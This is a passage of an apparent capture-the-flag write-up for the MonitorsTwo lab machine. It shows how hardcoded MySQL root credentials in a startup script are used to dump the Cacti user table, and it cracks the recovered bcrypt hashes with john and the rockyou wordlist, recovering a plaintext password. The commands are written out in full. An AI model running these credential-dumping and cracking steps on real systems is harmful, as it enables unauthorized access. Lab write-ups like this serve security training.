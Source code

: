 ```bash
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

We see multiple `mysql` commands executed as `root`. The script also reveals that the username `admin` exists and the password-related field `must_change_password` is on the `user_auth` table. 

Since, we have root, we can dump the `user_auth`'s data and see what else it contains:

```bash
$ mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings     login_opts      policy_graphs   policy_trees    policy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts    lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb   1       on      on      on      on      on      2 11       1       1       on      -1      -1      -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1-1               0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1 11       1       1       on      -1      -1              on      0       0       2135691668
```

We got two pair of creds: 
1. `admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC`
2. `marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C` 

Let's try to crack those on our attack host using `john`:

```bash
$ cat hashes
$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C

$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)
```
